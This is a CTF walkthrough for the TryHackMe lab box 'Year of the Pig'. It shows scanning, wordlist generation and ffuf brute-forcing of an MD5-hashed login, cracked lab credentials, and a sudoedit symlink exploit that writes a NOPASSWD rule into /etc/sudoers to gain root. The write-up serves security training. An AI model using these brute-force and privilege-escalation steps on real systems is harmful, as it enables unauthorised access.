In this walkthrough, we'll go over a challenge (hard) level box called ***Year of the Pig*** on [TryHackMe](https://tryhackme.com/room/yearofthepig) 


Let's start the scanning process with nmap. The IP address would be different when you deploy it:
```bash
nmap -sTV -n -sC -T4 -p- 10.10.209.207 --open
```
Per the nmap result, it looks like port 80 is open:
```bash
Starting Nmap 7.91 ( https://nmap.org ) at 2021-06-25 17:02 EDT
Nmap scan report for 10.10.209.207
Host is up (0.35s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Marco's Blog
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.98 seconds
```


We can run dirseach to see what we can find `dirsearch -u http://10.10.48.50 -r -f -t 50 -x 302,400,403,500,503`:


It looks like there is admin page, we can visit the following link http://10.10.22.113/login.php:


We can see that the login page has a hint in terms of the password. It is a memorable word and followed by two numbers and a special character. we can use cewl to extract the keywords `cewl http://10.10.22.113 -d 4 -o -w yop-keywords.txt`. After that, we can get rid of some of the words manually. We can also create a rule file for hashcat to generate some passwords:
char.rule file contains:

```bash
$!
$@
$#
$$
$%
$^
$&
$*
$(
$)
${
$}
$[
$]
$.
$?
$-
$_
$+
```
We can now run the following hashcat script `hashcat yop-bruteforce.txt -r /usr/share/hashcat/rules/best64.rule -r char.rule --stdout > yop-finalbruteforce.txt`. I then try to run ffuf for brute forcing `ffuf -w yop-finalbruteforce.txt:PASS -w yop-bruteforce.txt:USER -X POST -d '{"username":"USER","password":"PASS"}' -H "Content-Type: text/plain;charset=UTF-8" -u "http://10.10.22.113/api/login" -t 100 -fr "Incorrect"`. Unfortunately, this doesn't bring back any results. If we proxy the traffic through BurpSuite, we see that the password is in MD5 hash:


We can use Name-That-Hash to detect the hash type:


We can now convert each password to MD5 hashes with the following script `while read -r line; do printf %s "$line" | md5sum | cut -f1 -d' '; done < THM/yop/yop-finalbruteforce.txt > THM/yop/yop-finalbruteforceMD5.txt`. Following that, we can again try ffuf to brute force `ffuf -w yop-finalbruteforceMD5.txt:PASS -w yop-bruteforce.txt:USER -X POST -d '{"username":"USER","password":"PASS"}' -H "Content-Type: text/plain;charset=UTF-8" -u "http://10.10.22.113/api/login" -t 100 -fr "Incorrect"`:


We can then feed the hash to sth `sth -t 'ea22b622ba9b3c41b22785dcb40211ac' -w yop-finalbruteforce.txt` which reveals the password:



Username | Password
----------- | --------
marco | savoia21!

By using the below creds, we are able to ssh into the box:



After a quick enumeration, we find "/var/www/admin.db" file, but I don't have read rights to it. Although, I saw that I was able to write "/var/www/html/admin/commands.php". The original commands.php looks like the below:


So we can change the privileges of this file via the commands.php and execute a command on the web page. I ended up adding the below line:



It looks like "change" command worked just fine and I am able to add "read" privilege to "admin.db" file:



I then transferred "admin.db" file to my local Kali and inspected the contents of it, I found MD5 hashes of curtis user as well:


It looks like we need to perform a lateral movement and upon feeding the hash to sth, I was able to retreive the password:


So far found credentials:

Username | Password
----------- | --------
marco | savoia21!
curtis | Donald1983$

By using su command, we are able to login as curtis:



We know that curtis can run `sudo -l`:


A quick searchsploit search finds three exploits:


According to the searchsploit, we just need to create the necessary folders and generate a symbolic link:
```bash
It seems that sudoedit does not check the full path if a wildcard is used
twice (e.g. /home/*/*/file.txt), allowing a malicious user to replace the
file.txt real file with a symbolic link to a different location (e.g.
/etc/shadow).

I was able to perform such redirect and retrieve the data from the
/etc/shadow file.

In order for you to replicate this, you should configure the following line
in your /etc/sudoers file:

<user_to_grant_priv> ALL=(root) NOPASSWD: sudoedit /home/*/*/test.txt

Then, logged as that user, create a subdirectory within its home folder
(e.g. /home/<user_to_grant_priv>/newdir) and later create a symbolic link
inside the new folder named test.txt pointing to /etc/shadow.

When you run sudoedit /home/<user_to_grant_priv>/newdir/test.txt you will
be allowed to access the /etc/shadow even if have not been granted with
such access in the sudoers file.
```

So we can switch to marco user and create "/foo/bar" directory in "/var/www/html" and grant write access to everyone:


After this we can switch back to curtis and issue the following commands:
1. `cd /var/www/html/foo/bar`
2. `touch config.php`
3. `ln -sf /etc/sudoers config.php`
4. `sudoedit /var/www/html/foo/bar/config.php` I added the following line to the config.php file 
```bash
curtis ALL=(root) NOPASSWD: ALL
```


We can then issue `sudo -i` to become root user:



I hope you enjoyed this walkthrough.

[<= Go Back to TryHackMe Walkthroughs](TryHackMeWalkthroughs.md)

[<= Go Back to Main Menu](index.md)
